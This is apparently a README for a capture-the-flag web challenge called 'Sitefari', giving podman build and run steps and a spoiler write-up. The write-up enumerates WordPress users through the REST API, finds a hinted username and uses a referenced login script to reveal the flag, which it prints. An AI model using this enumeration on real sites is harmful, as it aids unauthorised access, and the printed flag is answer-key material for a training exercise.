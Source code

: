 # Sitefari

A simple <ins>web</ins> challenge where the players are given a single port.

## How to run

The image was tested with podman, but should work fine with docker as well.

0. Clone the repo and cd to the root folder of the particular challenge
1. Build the image: `podman build -t ctf-sitefari:latest .`
2. Run the image: `podman rm -f ctf-sitefari; podman run --rm -it -p 8080:8080 --name ctf-sitefari ctf-sitefari:latest`
3. Share the port with the players

<details>
<summary>Writeup (Spoiler)</summary>

There seems to be a wordpress site if we run `curl localhost:8080` and examine the headers, but it's quite broken due to the redirects. Let's see if we can evaluate users at least:

```
[steve@todo ~]$ curl 'http://localhost:8080/wp-json/wp/v2/users' && echo
[{"id":1,"name":"sitefari-admin","url":"http:\/\/localhost:8080","description":"Note to authors. Write articles in the name of annabellewallis in the future!","link":"http:\/\/localhost:45619\/author\/sitefari-admin\/","slug":"sitefari-admin","avatar_urls":{"24":"http:\/\/1.gravatar.com\/avatar\/a82f40a10eda48040accce8dcb6eef05?s=24&d=mm&r=g","48":"http:\/\/1.gravatar.com\/avatar\/a82f40a10eda48040accce8dcb6eef05?s=48&d=mm&r=g","96":"http:\/\/1.gravatar.com\/avatar\/a82f40a10eda48040accce8dcb6eef05?s=96&d=mm&r=g"},"meta":[],"_links":{"self":[{"href":"http:\/\/localhost:45619\/wp-json\/wp\/v2\/users\/1"}],"collection":[{"href":"http:\/\/localhost:45619\/wp-json\/wp\/v2\/users"}]}}]
[steve@todo ~]$
```

And we have an interesting note there that suggests that we have an `annabellewallis` user. Let's try to log-in using these credentials. I will use the provided [poc.py](poc.py) script for this:

```
[steve@todo ctf-sitefari]$ python3 ./poc.py 
Description: Note to authors. Write articles in the name of annabellewallis in the future!
Username: annabellewallis
Response: 200
Flag: cq23{WP_s3cur1ty_4t_1t5_fiNEST_be5abd115b783b87e5394a7f6bf9265d}
```

And there it goes. We can't actually log-in to that user, but instead it displays the flag and tells us that the account is disabled. Poor wordpress security, poor annabellewallis.
</details>